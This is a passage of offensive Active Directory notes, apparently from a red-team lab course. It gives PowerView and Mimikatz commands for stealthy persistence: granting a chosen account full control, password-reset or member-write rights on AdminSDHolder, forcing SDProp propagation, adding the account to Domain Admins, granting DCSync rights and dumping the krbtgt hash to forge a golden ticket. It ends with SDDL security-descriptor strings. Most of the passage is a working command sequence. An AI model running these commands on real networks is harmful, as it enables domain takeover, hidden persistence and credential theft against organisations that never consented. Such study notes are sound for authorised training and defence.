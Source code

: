 - So if we can edit/add one more entry in the ACL of AdminSDHolder in the protected groups, when SDPROP is scheduled to run, the entry will be propagated to other ACL.

- More stealth: Add a user with Full Permissions to the AdminSDHolder Protected Groups(Domain Admins), and when it propagates by SDPROP, the user will be added with Full Control of the AC of groups like Domain Admins, but not even a member of it.(can add members to it because you have Full Control of it)

- Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA: 

  - `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName <account name> -Rights All -Verbose`

- Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder,: 

  - `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName <account name> -Rights ResetPassword -Verbose`
  - `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName <account name> -Rights WriteMembers -Verbose`

- Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory:

  - `Invoke-SDPropagator -timeoutMinutes 1 -showProgress Verbose`
  - `Invoke-SDPropagator -taskname FixUpInheritance timeoutMinutes 1 -showProgress -Verbose`(For pre-Server 2008 machines)
  
- Check the Domain Admins permission - PowerView as normal user: 

  - `Get-ObjectAcl -SamAccountName "Domain Admins" ResolveGUIDs | ?{$_.IdentityReference -match '<account name>'}`

- Abusing FullControl using PowerView_dev: 
  
- `Add-DomainGroupMember -Identity 'Domain Admins' -Members <account name> -Verbose`
  
- Abusing ResetPassword using PowerView_dev: 
  
  - `Set-DomainUserPassword -Identity <account name> -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText Force) -Verbose`

### Using ACLs - Rights Abuse

- Add FullControl Rights:
  - `Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' PrincipalSamAccountName <account name> -Rights All -Verbose `
- Add Replication rights(to perform DCSync attack)
  - `Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' PrincipalSamAccountName <account name> -Rights DCSync -Verbose`
  - `Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'` DCSync attack to dump krbtgt hash -> golden ticket

### Using ACLs - Security Descriptors

- To modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users(Assume Administative privileges acquired.)

- SDDL(Security Descriptor Definition Language) defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL in the format of `ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid `
  - ACE for built-in administrators for WMI namespaces: `A;CI;CCDCLCSWRPWPRCWD;;;SID`
